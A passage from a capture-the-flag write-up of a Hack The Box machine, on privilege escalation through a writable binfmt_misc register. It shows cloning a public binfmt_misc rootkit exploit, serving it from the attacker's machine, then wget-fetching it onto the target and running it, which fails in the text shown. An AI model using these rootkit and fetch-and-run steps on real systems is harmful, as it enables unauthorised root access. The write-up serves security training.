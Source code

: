```c
    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)
        perror("write");
    if (close(fd) == -1)
        perror("close");

    return 0;
}
```

## Binfmt Exploit

This is just [reading](https://linux.die.net/man/3/read) a file in from STDIN, [opening](https://linux.die.net/man/3/open) the register file in binfmt_misc, and then [writing](https://linux.die.net/man/3/write) out to it. Clearly this needs further investigation, so with a bit of searching I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts#proc-sys-fs-binfmt_misc) on HackTricks which tells us:

```text
Poor man's rootkit, leverage binfmt_misc's credentials option to escalate privilege through any suid binary (and to get a root shell) if /proc/sys/fs/binfmt_misc/register is writeable.
```

Looking at the register file we see it's only writeable for the owner which is root:

```sh
dev@retired:~/emuemu$ ls -ls /proc/sys/fs/binfmt_misc/register
0 --w------- 1 root root 0 Jun 24 05:11 /proc/sys/fs/binfmt_misc/register 
```

There's an exploit [here](https://github.com/toffan/binfmt_misc) that HackTricks points us to:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# git clone https://github.com/toffan/binfmt_misc.git
Cloning into 'binfmt_misc'...
remote: Enumerating objects: 42, done.
remote: Total 42 (delta 0), reused 0 (delta 0), pack-reused 42
Receiving objects: 100% (42/42), 17.83 KiB | 570.00 KiB/s, done.
Resolving deltas: 100% (20/20), done.

┌──(root㉿kali)-[~/htb/retired/binfmt_misc]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Pull it over to the box and run it:

```sh
dev@retired:~$ wget http://10.10.14.198/binfmt_rootkit
--2022-06-25 16:45:44--  http://10.10.14.198/binfmt_rootkit
Connecting to 10.10.14.198:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2048 (2.0K) [application/octet-stream]
Saving to: ‘binfmt_rootkit’
binfmt_rootkit     100%[===========>]   2.00K  --.-KB/s    in 0s
2022-06-25 16:45:44 (350 MB/s) - ‘binfmt_rootkit’ saved [2048/2048]

dev@retired:~$ chmod +x binfmt_rootkit 

dev@retired:~$ ./binfmt_rootkit
Error: /proc/sys/fs/binfmt_misc/register is not writeable
```
